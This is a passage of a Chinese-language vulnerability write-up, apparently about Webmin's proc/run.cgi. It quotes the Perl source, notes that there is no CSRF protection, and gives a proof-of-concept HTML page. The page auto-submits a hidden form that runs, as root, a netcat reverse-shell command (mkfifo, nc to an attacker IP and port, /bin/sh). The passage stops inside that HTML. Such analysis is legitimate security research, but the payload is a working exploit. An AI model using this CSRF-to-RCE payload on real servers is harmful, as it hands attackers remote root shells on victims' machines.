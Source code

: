 if ($in{'mode'}) {
    # fork and run..
    if (!($pid = fork())) {
        close(STDIN); close(STDOUT); close(STDERR);
        &amp;open_execute_command(PROC, &quot;($cmd)&quot;, 0);
        print PROC $in{'input'};
        close(PROC);
        exit;
        }
    &amp;redirect(&quot;index_tree.cgi&quot;);
    }
else {
    # run and display output..
    &amp;ui_print_unbuffered_header(undef, $text{'run_title'}, &quot;&quot;);
    print &quot;&lt;p&gt;\n&quot;;
    print &amp;text('run_output', &quot;&lt;tt&gt;&quot;.&amp;html_escape($in{'cmd'}).&quot;&lt;/tt&gt;&quot;),&quot;&lt;p&gt;\n&quot;;
    print &quot;&lt;pre&gt;&quot;;
    $got = &amp;safe_process_exec_logged($cmd, 0, 0,
                     STDOUT, $in{'input'}, 1);
    if (!$got) { print &quot;&lt;i&gt;$text{'run_none'}&lt;/i&gt;\n&quot;; }
    print &quot;&lt;/pre&gt;\n&quot;;
    &amp;ui_print_footer(&quot;&quot;, $text{'index'});
    }
&amp;webmin_log(&quot;run&quot;, undef, undef, \%in);
</code></pre>

<p>通过分析源码我们得知代码没有针对CSRF的保护措施，因此我们只需很简单的CSRF构造即可触发该漏洞，并且由于该漏洞触发点是run.cgi文件，我们可以直接通过CSRF构建RCE（远程命令执行），这是非常理想的漏洞利用场景。</p>

<h4 id="漏洞利用">漏洞利用</h4>

<p>接下来我们通过构造PoC，尝试利用这个漏洞。</p>

<p>首先我们来构造一个HTML文件，<strong>这个HTML的核心目标是进行form表单的自动提交</strong>，源码如下：</p>

<pre><code class="language-plain">&lt;html&gt;
        &lt;head&gt;
            &lt;meta name=&quot;referrer&quot; content=&quot;never&quot;&gt;
        &lt;/head&gt;
  &lt;body&gt;
    &lt;form action=&quot;http://your_mituan_app_address/proc/run.cgi&quot; method=&quot;POST&quot;&gt;
      &lt;input type=&quot;hidden&quot; name=&quot;cmd&quot; value=&quot;mkfifo /tmp/378; nc your_ip your_port 0&lt;/tmp/378 | /bin/sh &gt;/tmp/378 2&gt;&amp;1; rm /tmp/378&quot; /&gt;
      &lt;input type=&quot;hidden&quot; name=&quot;mode&quot; value=&quot;0&quot; /&gt;
      &lt;input type=&quot;hidden&quot; name=&quot;user&quot; value=&quot;root&quot; /&gt;
      &lt;input type=&quot;hidden&quot; name=&quot;input&quot; value=&quot;&quot; /&gt;
      &lt;input type=&quot;hidden&quot; name=&quot;undefined&quot; value=&quot;&quot; /&gt;
      &lt;input type=&quot;submit&quot; value=&quot;Submit request&quot; /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
